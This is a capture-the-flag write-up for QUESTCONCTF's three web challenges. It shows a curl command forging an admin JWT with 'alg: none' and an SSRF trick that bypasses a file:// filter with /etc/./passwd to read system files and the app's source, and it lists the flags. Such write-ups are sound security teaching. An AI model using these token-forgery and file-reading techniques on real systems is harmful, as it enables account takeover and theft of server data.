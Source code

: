 -----------------

### CTF: QUESTCONCTF

------------------

![image](https://github.com/user-attachments/assets/201d3478-4cce-4604-a4d3-be0e79a1d0f1)

------------------

### Challenges:

- Web
  - Direction
  - Theadmin
  - Temp

------------------

### WEB:

### Direction:

![image](https://github.com/user-attachments/assets/4f776a65-e2c5-4f76-b044-18c3d0f4c467)

- I loaded the site and got this

![image](https://github.com/user-attachments/assets/c01101fe-8612-40fd-93de-7997ec52e9ff)

- I decided to check for the common file `robots.txt` that we all try to find and got a disallowed page.

![image](https://github.com/user-attachments/assets/29d877b6-a391-4a21-9497-0a8a4615cba0)

- I proceeded with curl and noticed an header containing a portion of the flag and automatically redirects to the next page.At first,I couldn't use `GET` for it.I used header `OPTIONS` to find allowed http headers.

![image](https://github.com/user-attachments/assets/9ae29c4e-5969-40cc-a455-77f463277e94)

- Flag portion 1 is shown below and the next flag stop will be the path in the `Location` header.

![image](https://github.com/user-attachments/assets/05c38c13-3f18-4440-bf62-8606f38c8a79)

- I wrote a <a href="https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/ctf/QUESTcon24/scripts/direction.py">script</a> to automate it.

![image](https://github.com/user-attachments/assets/60983022-c410-4d09-9247-07294c1cdd14)

- Flag-: ```QUESTCON{mi3d1r3ct10n_15_4n_4r}```


-------------------

### Challenge 2: The Admin

![image](https://github.com/user-attachments/assets/2c893638-2ee5-4086-ba07-333a1ee1d40a)

- The index page contains the documentation for the api.Route `auth` takes in a username and returns a jwt token created with the username and route `access` takes in the cookie and displays the username.

![image](https://github.com/user-attachments/assets/0ca83b87-c8b8-4164-82f7-35f0b1b0180b)

![image](https://github.com/user-attachments/assets/d985d91e-3733-4d32-9587-6719bc838327)

- I was able to get the flag by setting the `alg` key to `none`.

```bash
curl https://questcon-theadmin.chals.io/access -H "Authorization: Bearer $(echo '{"alg":"none","typ":"JWT"}' | base64).eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzI5ODYwNTM2fQ"
{"flag":"QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}"}%
```

- Flag-:```QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}```

---------------------

### Challenge 3: TEMP

![image](https://github.com/user-attachments/assets/748470c8-b92f-4dc0-8d28-bb37d6de8963)

- I checked the source code aand noticed a `POST` request made to route `/api` which loads a url.

      fetch('/api', {
                      method: 'POST',
                      headers: {
                          'Content-Type': 'application/json',
                      },
                      body: JSON.stringify({ url: urlInput }),
                  })
- I made an http request to google and it worked.

      ❯ curl https://questcon-temp.chals.io/api -H "Content-Type: application/json" -d '{"url": "https://www.google.com"}'
      {"data":"<!doctype html><html itemscope=\"\" itemtype=\"http://schema.org/WebPage\" lang=\"en\"><head><meta content=\"Search the world's information, including webpages, images, videos and more. Google has many special features to help you find exactly what you're looking for.\" name=\"description\"><meta content=\"noodp, \" name=\"robots\"><meta content=\"text/html; charset=UTF-8\"

- I tried to read `/etc/passwd` with `file://` schema which did not work because it was filtered.Then, I tred `/etc/./passwd` which worked.

![image](https://github.com/user-attachments/assets/c76e76d3-230a-4c03-b7d0-40a5e0b293dd)

- I got the flag by reading the source code stored in `/app/app.py`.I got this idea because most ctf challenges are stored in `/app/app.py`.

![image](https://github.com/user-attachments/assets/a9abae67-3da3-4799-bd5d-7c495faa1b3c)

- Flag-: ```QUESTCON{r3c0ver_d3l3t3d_fil3}```

-------------------

### THANKS FOR READING

-------------------

### REFERENCES:

- [Direction's script](https://github.com/SENSEiXENUS/senseixenus.github.io/blob/main/posts/ctf/QUESTcon24/scripts/direction.py)
















